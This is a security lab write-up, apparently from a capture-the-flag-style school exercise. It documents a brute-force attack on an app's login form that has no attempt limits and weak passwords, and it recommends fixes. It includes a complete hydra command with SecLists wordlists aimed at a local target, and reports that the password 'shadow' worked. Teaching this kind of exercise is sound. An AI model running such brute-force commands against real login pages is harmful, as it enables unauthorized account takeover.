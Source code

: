 # Weak Credentials + Improper Restriction of Login Attempts

## 📖 Vulnerability Explanation
The application does not limit the authentication attempts, making a brute force attack possible. In addition to this, there is no strong password policy, which makes password attacks easier.

## ⚙️ Exploitation Process
We will use ```hydra``` to perform the brute force attack and ```Seclists``` for the wordlists arguments. 

- Run hydra with the correct wordlists path:

```
hydra -L /sgoinfre/students/apena-ba/cybersecurity/SecLists/Usernames/top-usernames-shortlist.txt -P /sgoinfre/students/apena-ba/cybersecurity/SecLists/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt 127.0.0.1 -s 9090 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:WrongAnswer.gif'
```

In order to use the http-get-form module, we must define a format string containing three parts:
1. Route to the login page
2. Parameters must contain at least one format string ```^USER^``` or ```^PASS^```
3. Failure string present in the response to recognise valid attempts

> It appears that any username works for the password _shadow_

## 🧰 Additional Resources Used
Hydra is a brute force attack tool used to test password security on several protocols and services. It uses wordlists as parameters and can be used for both password bruteforcing and password spraying.

- https://github.com/vanhauser-thc/thc-hydra

The wordlists we used for the brute force attack are part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists

## 🔧 Fix
To protect the app authentication, two fixes should be implemented:

1. **Strong password policy:** Forcing users to set strong passwords limits the risk of being compromised by a malicious actor
2. **Limit login attempts:** To prevent brute force attacks, the app should restrict the amount of attempts on each account

## ☝️🤓 Advanced explanation
In order to strenghen the security posture of the application, we could use IDS/IPS to detect and protect against brute force attacks in real time. Furthermore, these systems log suspicious activities reinforcing the security on a network level.
